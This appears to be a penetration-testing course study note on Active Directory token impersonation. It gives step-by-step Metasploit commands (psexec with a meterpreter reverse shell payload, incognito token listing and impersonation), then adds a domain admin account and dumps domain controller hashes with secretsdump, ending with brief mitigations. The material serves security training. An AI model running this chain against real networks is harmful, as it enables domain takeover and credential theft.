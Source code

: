 ```yaml
---
tags:
  - PEH
---
```

## Definition of tokens
Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file (**think cookies for computers**).

There are two types of tokens:
- Delegate: Created for logging into a machine or using a Remote Desktop
- Impersonate: non interactive, such as attaching a network drive or a domain logon script.
to see if the machine that you popped a shell into has a high value user currently logged-in (for example: administrator)
## Executing Token Impersonation in [[Metasploit - ميتاسبلويت|MS]] using password
1. Run `msf` and setup options to [[Gaining shell access (in AD)|gain shell access]]
```bash
# Run Metasploit
msfconsole

# Search for windows/smb/psexc and choose setp
msf > search psexec
msf > use 24

# Set options
msf > set payload windows/x64/meterpreter/reverse_tcp
msf > set RHOST <ip-victim>
msf > set SMBUser <username>
msf > set SMBPass <password>
msf > set SMBDomain <domain-name>.local
msf > run
```
2. Load incognito mode
```bash
msf > load incognito
```
3. List tokens of groups and users
```bash
meterpreter > list_tokens -u
meterpreter > list_tokens -g
# First is for user tokens while the second one is for group tokens
```
4. Impersonate! (based on the results of previous command, if we find \<domain-name>\administrator that is a WIN!)
```bash
meterpreter > impersonate_token <domain>\\<user>
```
5. Now, since you impersonated administrator and have administrator privileges, you can add users
```bash
net user /add <username> <password> /domain
```
6. Add created user to domain admins
```bash
net group "Domain Admins" <username> /ADD /DOMAIN
```
7. Now, using our created domain admin. We can [[Dumping and cracking hashes|secretsdump]] the **domain controller because we are in the domain admins group!**
```bash
secretsdump.py <domain-name>/<created-admin>:"<password-created>"@<dc-ip>
```
>[!INFO] rev2self
>Run rev2self if you want to go back from the impersonation to the stage were you just popped the shell at. 
## Token Impersonation mitigation
- Limit user/group token creation permission
- Account tiering
- Local admin restriction
